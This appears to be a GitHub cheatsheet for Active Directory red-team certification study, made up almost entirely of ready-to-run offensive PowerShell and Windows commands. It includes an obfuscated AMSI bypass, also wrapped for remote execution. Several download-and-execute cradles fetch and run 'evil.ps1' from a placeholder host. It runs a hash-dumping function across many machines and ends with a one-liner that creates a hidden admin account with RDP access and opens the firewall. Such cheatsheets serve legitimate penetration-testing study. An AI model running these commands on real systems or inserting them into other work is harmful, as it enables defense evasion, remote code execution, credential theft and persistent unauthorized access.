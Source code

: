 # CRTE-Cheatsheet
Currently copied from CRTP-cheatsheet but will add more!

# Summary
* [General](#General)
* [Local privilege escalation](Local-Privilege-Escalation.md)
* [Domain Enumeration](Domain-Enumeration.md) 
* [Lateral Movement](Lateral-Movement.md)
* [Domain privilege escalation](Domain-Privilege-Escalation.md)
* [Domain Persistence](Domain-Persistence.md)
   
# General
#### Access C disk of a computer (check local admin)
```
ls \\<COMPUTERNAME>\c$
```

#### Use this parameter to not print errors powershell
```
-ErrorAction SilentlyContinue
```

#### Rename powershell windows
```
$host.ui.RawUI.WindowTitle = "<NAME>"
```

#### Save Credentials
```
$creds = get-credential

$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)
```

#### Find a specific file
```
Get-Childitem -Path C:\ -Force -Include <FILENAME OR WORD TO SEARCH> -Recurse -ErrorAction SilentlyContinue
```

## PSSession
#### Save pssession in variable
```
$sess = New-PSSession -Credential $creds -ComputerName <IP>
```

#### Run commands on machine
```
Invoke-Commannd -ScriptBlock {<COMMAND>} -Session $sess
```

#### Run commands on multiple machines
```
Invoke-Command –Scriptblock {<COMMAND>} -ComputerName (Get-Content computers.txt)
```

#### Load script on machine
```
Invoke-Commannd -Filepath <PATH TO SCRIPT> -Session $sess
```

#### Execute script on multiple machines
```
Invoke-Command –FilePath script.ps1 -ComputerName (Get-Content computers.txt)
```

#### Execute locally loaded function on remote machines:
```
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content computers.txt)
```

#### Copy item through PSSession
```
Copy-Item -ToSession $sess -Path <PATH> -Destination <DEST> -verbose
```

#### AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

#### Download and execute cradle
- Usefull tool: https://github.com/danielbohannon/Invoke-CradleCrafter
```
iex (New-Object Net.WebClient).DownloadString('https://xx.xx.xx.xx/payload.ps1')

$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://xx.xx.xx.xx/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

#PSv3 onwards

iex (iwr 'http://xx.xx.xx.xx/evil.ps1')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://xx.xx.xx.xx/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://xx.xx.xx.xx/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

### Add user to local admin and RDP group and enable RDP on firewall
```
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
